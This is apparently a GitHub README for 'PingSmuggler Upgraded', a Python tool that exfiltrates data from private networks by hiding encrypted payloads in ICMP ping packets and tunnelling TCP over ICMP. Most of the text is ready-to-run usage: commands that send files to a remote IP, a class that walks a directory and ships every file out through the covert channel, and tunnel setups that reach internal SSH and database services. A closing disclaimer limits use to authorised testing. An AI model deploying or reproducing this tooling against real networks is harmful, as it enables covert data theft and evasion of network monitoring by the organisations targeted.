

# PingSmuggler Upgraded




## About

`PSU` is a tool originally developed by `0x7sec` (https://github.com/0x7sec) as a way to exfiltrate data from a private network via sending encrypted payloads disguised as ICMP ping packets. This rewrite extends the concept with enhanced `send` and `recv` functionality, support for bidirectional TCP tunneling over ICMP, and improved encryption standards.

## Features

- **Data Exfiltration**: Send files and data via encrypted ICMP packets
- **Packet Capture**: Receive and decrypt ICMP-tunneled data
- **TCP Tunneling**: Tunnel TCP connections over ICMP using client-server architecture
- **AES Encryption**: 128-bit CBC encryption with PKCS7 padding
- **Flexible Configuration**: Adjustable chunk sizes, delays, and ICMP types
- **Cross-Platform**: Works on Linux, macOS, and Windows (with appropriate permissions)

## Index

- [About](#about)
- [Features](#features)
- [Setup & Install](#setup--install)
- [Module Installation](#module-installation)
- [Usage](#usage)
    - [Generate Keys](#generate-aes-keys)
    - [Sending Data](#send-data)
    - [Recieving Data](#recieve-data)
    - [Programmable Usage](#programmable-usage-example)
    - [Tunnels](#tunneling)
        - [Server Setup](#tunnel-server-setup)
        - [Connector Setup](#tunnel-connector-setup)
    - [PSU as a Module](#psu-as-a-module)
- [Deactivation](#deactivation-venv)
- [Credits](#credits)
- [Disclaimer](#discliamer)

## Setup & Install

> (**NOTE :**) The functionality of this tool requires `scapy` and `cryptography` to be installed. Administrator/root privileges are required for ICMP packet manipulation.

### Setup

```bash
python3 -m venv PSUEnviron
```

### Activation

Activation of the virtual environment is pretty straight forward.

_Suggested :_ `powershell`(windows), `fish`(linux)

> (NOTE) : _`nushell` terminal does not display/operate correctly with the venv, it is best to stay with `powershell`._

#### Windows

__Powershell__

```powershell
.\PSUEnviron\Scripts\Activate.ps1
```

__Batch__

```batch
.\PSUEnviron\Scripts\activate.bat
```

#### Linux

__Bash__

```sh
source PSUEnviron/bin/activate
```

__Fish__

```sh
source PSUEnviron/bin/activate.fish
```

### Module Installation

#### Linux Package Install (scapy)

```sh
sudo apt install python3-scapy
```

### Requirements.txt

```markdown
python3 -m pip install -r requirements.txt
```

The central modules for this project is `scapy`, `cryptography` & `colorama`.

> (**NOTE**):  _`scapy` itself and the `ICMP` operations need `root`/`admin` privs to work. There is also a possibility of it raising `false positives` from some `anti-virus` softwares. This is due to the real-world operations this smuggling technique has been used for, user-discretion is advised!_

Alternativly you can directly install the modules via:

```markdown
python3 -m pip install scapy cryptography colorama
```

## Usage

### Generate AES Keys

* Works on both `linux` and `windows`, without deferences.

```markdown
python3 PSU.py generate-key -s 16
```

Keys can be `16`, `24`, or `32` bytes long.

### Send Data

```markdown
(sudo) python3 PSU.py send <destination-ip> <aes-key> -d 'data'
(sudo) python3 PSU.py send <destination-ip> <aes-key> -f /path/to/file
```

```bash
# Full Example
python3 PSU.py key-gen -s 32
# Send a file
(sudo) python3 PSU.py send -f /path/to/secret.pdf 192.168.1.100 "your32byteskey123456789012345678"
# Send raw data
(sudo) python3 PSU.py send -d "Secret Message" 192.168.1.100 "your16bytekey13"
# Advanced
(sudo) python3 PSU.py send -f document.txt 10.0.0.50 "mykey16bytes1234" \
    --chunk-size 64 \
    --delay 0.5 \
    --random-size \
    --icmp-type 8
```

### Recieve Data

```markdown
(sudo) python3 PSU.py recv <aes-key> <output-file> <output.pcap> 
## output-file & output.pcap are optional (under-construction but currently functional)
```

```bash
# Full Example
(sudo) python3 PSU.py recv "your32bytekey123456789012345678 output.txt capture.pcap"
# With custom directory
(sudo) python3 PSU.py recv "your16bytekey123" recievedFile.bin traffic.pcap \ 
    -b /tmp/recvFiles/
```

### Programmable Usage Example 

```python
#!/usr/bin/env python3
from psu import pingSmugglerUpgraded

# Initialize PSU
psu_instance = pingSmugglerUpgraded(noConfirmUser=True, app=False)

# Sending data programmatically
def send_covert_data(target_ip, data_to_send):
    key = b'mysecretkey12345'  # 16-byte key
    
    sender = psu_instance.send(
        PSUI=psu_instance,
        rHost=target_ip,
        key=key,
        data=data_to_send,
        chunkSize=48,
        delay=0.2,
        randomSize=True
    )
    sender.start()

# Receiving data programmatically
def receive_covert_data():
    key = b'mysecretkey12345'
    
    receiver = psu_instance.recv(
        PSUI=psu_instance,
        key=key,
        outputFile='received_data.bin',
        outputCap='traffic.pcap'
    )
    packet_count, processed, compiled_data = receiver.start()
    print(f"Received {packet_count} packets")
    return compiled_data

# Usage
send_covert_data('192.168.1.100', b'Confidential information here')
data = receive_covert_data()
```

## Tunneling

### Tunnel Server Setup

```bash
# On the tunnel server (has access to tunnel service)
# This will forward ICMP-tunneled traffic to a local SSH server.
(sudo) python3 PSU.py listen "tunnelkey1234567890123456" localhost 22
# Foward to a remote server
(sudo) python3 PSU.py listen "webproxykey123456" internal.server.com 443
``` 

### Tunnel Connector Setup

```python
import threading
from PSU import pingSmugglerUpgraded
# NOTE: While in this concept we are hardcoding the keys, it is best to use `dotenv`.
def setupTunnelServer(fHost:str,fPort:int):
    """Run on the server that has access to the target services."""
    psu = pingSmugglerUpgraded(noConfirmUser=True,app=False)
    key = b"ultrasecretkey32byteslong1234567"
    server = psu.tunnelServe(
        PSUI=psu,
        key=key,
        rHost=fHost,
        rPort=fPort
    )
    server.start()

def setupTunnelClient(sHost:str,lPort:int,rPort:int):
    """Run on the client that needs to access services."""
    psu = pingSmugglerUpgraded(noConfirmUser=True,app=False)
    key = b"ultrasecretkey32byteslong1234567"
    client = psu.tunnelClient(
        PSUI=psu,
        key=key,
        rHost=sHost,
        rPort=rPort,
        lPort=lPort
    )
    client.start()

if __name__ == "__main__":
    setupTunnelServer('internal-db.local',3306)
```

## PSU As A Module

```python
#!/usr/bin/env python3
"""
advanced_psu_integration.py
Advanced integration of PSU into custom applications
"""
import sys, os, time, threading
from pathlib import Path
# Add PSU to path if needed
sys.path.append('/path/to/psu/directory')
# Import the PSU module
from psu import pingSmugglerUpgraded
class CovertChannelManager:
    """Wrapper class for PSU operations"""
    def __init__(self, auto_confirm=True):
        # Initialize PSU without command-line interface
        self.psu = pingSmugglerUpgraded(
            noConfirmUser=auto_confirm,
            app=False  # Important: Set to False for module usage
        )
        self.active_tunnels = {}
        self.active_transfers = {}
    
    def generate_key(self, size=32):
        """Generate a secure AES key"""
        import os
        key = os.urandom(size)
        return key
    
    def create_tunnel(self, name, mode, **kwargs):
        """Create a named tunnel"""
        if mode == 'server':
            tunnel = self.psu.tunnelServe(
                PSUI=self.psu,
                key=kwargs['key'],
                rHost=kwargs['forward_host'],
                rPort=kwargs['forward_port']
            )
        elif mode == 'client':
            tunnel = self.psu.tunnelClient(
                PSUI=self.psu,
                key=kwargs['key'],
                rHost=kwargs['server_host'],
                rPort=kwargs['remote_port'],
                lPort=kwargs['local_port']
            )
        else:
            raise ValueError("Mode must be 'server' or 'client'")
        self.active_tunnels[name] = tunnel
        # Start tunnel in background thread
        thread = threading.Thread(
            target=tunnel.start,
            name=f"tunnel_{name}",
            daemon=True
        )
        thread.start()
        return tunnel
    
    def send_file_covert(self, filepath, destination, key, **options):
        """Send a file through ICMP channel"""
        sender = self.psu.send(
            PSUI=self.psu,
            rHost=destination,
            key=key,
            filePath=filepath,
            chunkSize=options.get('chunk_size', 32),
            delay=options.get('delay', 0),
            randomSize=options.get('random_size', False),
            icmpType=options.get('icmp_type', 8)
        )
        # Run in thread for non-blocking operation
        thread = threading.Thread(
            target=sender.start,
            daemon=True
        )
        thread.start()
        return sender
    
    def receive_data(self, key, output_file=None):
        """Receive data from ICMP channel"""
        receiver = self.psu.recv(
            PSUI=self.psu,
            key=key,
            outputFile=output_file,
            outputCap=f"{output_file}.pcap" if output_file else None
        )
        # This will block until interrupted
        packet_count, packets, data = receiver.start()
        return data

# Example usage of the integrated module
class SecureFileTransfer:
    """Application using PSU for secure file transfers"""
    
    def __init__(self):
        self.channel = CovertChannelManager()
        self.default_key = None
    
    def initialize_secure_channel(self):
        """Set up secure communication channel"""
        # Generate session key
        self.default_key = self.channel.generate_key(32)
        print(f"[+] Generated session key: {self.default_key.hex()[:10]}...")
        # You would share this key securely with the other party
        return self.default_key
    
    def transfer_directory(self, directory_path, destination_ip):
        """Transfer entire directory through covert channel"""
        dir_path = Path(directory_path)
        
        for file_path in dir_path.rglob('*'):
            if file_path.is_file():
                print(f"[*] Sending {file_path}")
                self.channel.send_file_covert(
                    filepath=str(file_path),
                    destination=destination_ip,
                    key=self.default_key,
                    chunk_size=64,
                    delay=0.1,
                    random_size=True
                )
                time.sleep(1)  # Pause between files
```

## Deactivation Venv

```markdown
deactivate
```

## Credits

### Original Author

* **`0x7sec`**
    - _GitHub :_ `https://github.com/0x7sec`
    - _Original Repo:_ `https://github.com/0x7sec/pingSmuggler`

### Rewrite & Enhancement Author

* **`J4ck3LSyN`**
    - _GitHub :_ `https://github.com/J4ck3LSyN-Gen2`
    - _Upgrade Repo :_ `https://github.com/J4ck3LSyN-Gen2/pingSmugglerUpgraded/tree/main`

## Discliamer

> (**DISCLAIMER**) This tool is provided for authorized testing and educational purposes only. Unauthorized network access and data exfiltration are illegal. Users are responsible for ensuring they have proper authorization before using this tool on any network.


